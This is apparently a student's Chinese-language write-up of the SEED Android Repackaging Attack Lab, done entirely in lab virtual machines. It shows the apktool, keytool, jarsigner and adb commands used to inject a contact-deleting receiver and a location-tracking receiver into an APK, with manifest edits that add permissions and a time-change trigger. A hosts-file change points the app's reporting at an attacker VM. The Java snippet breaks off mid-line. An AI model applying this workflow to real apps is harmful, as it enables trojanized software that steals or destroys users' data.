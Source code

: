 # Android Repackaging Attack Lab

大致的思路是先把目标应用从网上下载下来, 然后做逆向, 完事再上传回去, 用户很难分辨出来软件真假, 最终中招. 

在原先 Ubuntu VM 的基础上, 实验还需要 [Android VM](https://seedsecuritylabs.org/Labs_16.04/Mobile/). 

[实验指导](https://seedsecuritylabs.org/Labs_16.04/Mobile/Android_Repackaging/Android_Repackaging.pdf)

[Android VM 配置说明](https://seedsecuritylabs.org/Labs_16.04/Mobile/SEEDAndroid_VirtualBox.pdf)


至于的 Android VM 的配置照着做就行了

## T1 Obtain An Android App (APK file) and Install It

获得一个安卓应用的 APK 并安装. Seed Lab 中给了一个 *RepackagingLab.apk*, 放到共享文件夹中. 

在 Ubuntu VM 中使用 terminal. 
``` sh
$ adb connect 10.0.2.10
$ adb install /home/seed/host/D4E1/RepackagingLab.apk
```
![](/note/img/2020-02-12-09-46-45.png)
如 4 行左 2. 

## T2 Disassemble Android App

拆解安卓应用. 主要使用 apktool 完成. 

一个 APK 文件包括 *classes.dex*, *resources.arsc*, *AndroidManifest.xml*. 

``` sh
$ apktool d RepackagingLab.apk
```

经过处理后, 在 *RepackagingLab* 文件夹下, 将获得 *AndroidManifest.xml*, *apktool.yml*,  *original*, *res*, *smali*.

## T3 Inject Malicious Code

注入恶意代码. 关于注入方式有两类: 1. 直接修改现存的内容; 2. 添加新组件, 起一个独立的 smalifile. 然后关于组件, 包括活动\ 服务\ 广播\ 内容提供器. 

实验打算使用新建一个广播的组件, *Seed Lab* 提供了一个名为 `MaliciousCode.smali` 的文件. 将它放在 `smali/com` 目录下. 

``` Java
public class MaliciousCode extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        ContentResolver contentResolver = context.getContentResolver(); 
        Cursor cursor = contentResolver.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        while (cursor.moveToNext()) {
            String lookupKey = cursor.getString(cursor.getColumnIndex(ContactsContract.Contacts.LOOKUP_KEY)); 
            Uri uri = Uri.withAppendedPath
        } 
    }
}
```

`contentResolver` 将获得用户手机储存的访问权限;   
`cursor` 有能力获取联系人的具体内容, 并将其删除; 

另外, 我们还需要 *AndroidManifest.xml* 中注册这个新的组件, 并且修改相应的读写权限. 

``` xml {4-5,15-19}
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mobiseed.repackaging" platformBuildVersionCode="23" platformBuildVersionName="6.0-2166767">

    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.WRITE_CONTACTS"/>

    <application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/mobiseedcrop" android:label="@string/app_name" android:supportsRtl="true" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name="com.mobiseed.repackaging.HelloMobiSEED" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

        <receiver android:name="com.MaliciousCode"> 
            <intent-filter>
                <action android:name="android.intent.action.TIME_SET"/> 
            </intent-filter> 
        </receiver>
    </application>
</manifest>

```

第一段高亮给了 App 需要的权限, 第二段高亮是注册广播的接收器, 应该是修改时间时触发. 

## T4 Repack Android App with Malicious Code

重新打包带有恶意代码的安卓应用

### Rebuild APK

重新打包 APK

``` sh
$ apktool b RepackagingLab
```
重新打包的 APK 会被放在 `./RepackagingLab/dist` 目录下

### Sign the APK file

应该是获得 APK 的签名文件吧. 保证这个 APK 是 "完整且安全" 的, 能够在安卓设备上运行. 


使用 keytool 命令生成公钥和私钥. 
``` sh
$ keytool -alias test -genkey -v -keystore mykey.keystore
```

::: tip 关于 test
这个名字自己取, 记着, 后面的一条指令用的到. 
:::

这一步会要求我们输入很多东西, 包括密码\ 用户名\ 组织名等等. 其中输入了两组密码. 

``` sh
$ jarsigner -keystore mykey.keystore RepackagingLab.apk test
```

::: tip
这里用到了 test, 另外这个指令应该在 `./RepackagingLab/dist` 目录下进行, 同时修改指令中 apk 的名称. 
:::


## T5 Install the Repackaged App and Trigger the Malicious Code

下载之前重新打包过的 App, 并触发恶意代码. 

首先将之前的 App 删掉重装

``` sh
$ adb install RepackagingLab.apk
```

在设置中, 为 Repackaging 提供访问联系人的权限. 

先运行 Repackaging, 再添加 Contacts, 然后修改系统时间, 最后再次启动 Repackaging. 

![](/note/img/2020-02-12-13-21-13.png)

## T6 Using Repackaging Attack to Track Victim’s Location

使用重包装攻击去追踪受害者的定位信息. 

### Setting up mock locations

伪造一个假的地址. Android VM 给了一个 *MockLocation* 的 App, 里面有 6 个应用. 

### Configuring DNS

配置 DNS. 这里我们希望这个有问题的 APP 在 Victim 手上运行之后能够发送一段内容给攻击者, 这里就是 Ubuntu VM. 

实验指导上的内容貌似有点问题, 修改 hosts 文件的操作应该在 Android VM 上. 

``` sh
$ su
root$ vi /system/etc/hosts
```

在文件中添加 `10.0.2.9 www.repackagingattacklab.com`;

### Repackaging and installing the victim app

重新打包并安装目标应用. 接下来的操作和 T1 到 T5 中操作基本一致. 

*Seed Lab* 提供了需要的文件. 置于 `smali/com/mobiseed/repackaging`

修改 Manifest: 
``` xml {4-7,16-20}
<?xml version="1.0" encoding="utf-8" standalone="no"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="com.mobiseed.repackaging" platformBuildVersionCode="23" platformBuildVersionName="6.0-2166767">

    <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/> 
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/> 
    <uses-permission android:name="android.permission.ACCESS_MOCK_LOCATION" /> 
    <uses-permission android:name="android.permission.INTERNET"/>

    <application android:allowBackup="true" android:debuggable="true" android:icon="@drawable/mobiseedcrop" android:label="@string/app_name" android:supportsRtl="true" android:theme="@style/AppTheme">
        <activity android:label="@string/app_name" android:name="com.mobiseed.repackaging.HelloMobiSEED" android:theme="@style/AppTheme.NoActionBar">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:name="com.mobiseed.repackaging.MaliciousCode" >
            <intent-filter>
                <action android:name="android.intent.action.TIME_SET" />
            </intent-filter> 
        </receiver>
    </application>
</manifest>
```

完事打包, 给签名, 卸载重装

``` sh
$ apktool b RepackagingLab
$ cd ./RepackagingLab/dist
$ jarsigner -keystore mykey.keystore RepackagingLab.apk test
$ adb install RepackagingLab.apk
```

### Enabling the permission on the Android VM

打开安卓 VM 的许可. 给个 Location 权限. 

### Triggering the attacking code

激活攻击代码. 重新调整时间. 

### Tracking the victim

追踪受害者, 查看一下攻击效果. 网页刷不出来, 应该要 google 地图的支持, 莫不是要翻墙? 我觉得可以自信点把 "莫不要" 删掉. Mac 底下干这事有点费劲, 有空我转到 win 上做一遍. 

话又说回来, *Seed Lab* 实验为什么要求使用 NAT, 桥接模式不行吗? 主机与虚拟机间, 虚拟机间的通信都可以满足要求. 